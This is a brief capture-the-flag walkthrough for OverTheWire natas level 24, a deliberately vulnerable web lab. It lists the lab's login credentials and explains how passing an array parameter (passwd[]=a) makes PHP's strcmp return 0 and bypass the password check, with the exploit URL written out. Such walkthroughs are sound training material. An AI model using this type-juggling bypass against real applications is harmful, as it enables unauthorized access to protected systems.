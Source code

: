 # [natas 24](http://natas24.natas.labs.overthewire.org)

    Username: natas24
    Password: OsRmXFguozKpTZZ5X14zNO43379LZveg

Read the PHP manual.

    Note a difference between 5.2 and 5.3 versions

    echo (int)strcmp('pending',array());
    will output -1 in PHP 5.2.16 (probably in all versions prior 5.3)
    but will output 0 in PHP 5.3.3

    Of course, you never need to use array as a parameter in string comparisions.

Browse to the url below to get the password.

    http://natas24.natas.labs.overthewire.org/?passwd[]=a

Record the password.

    Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c

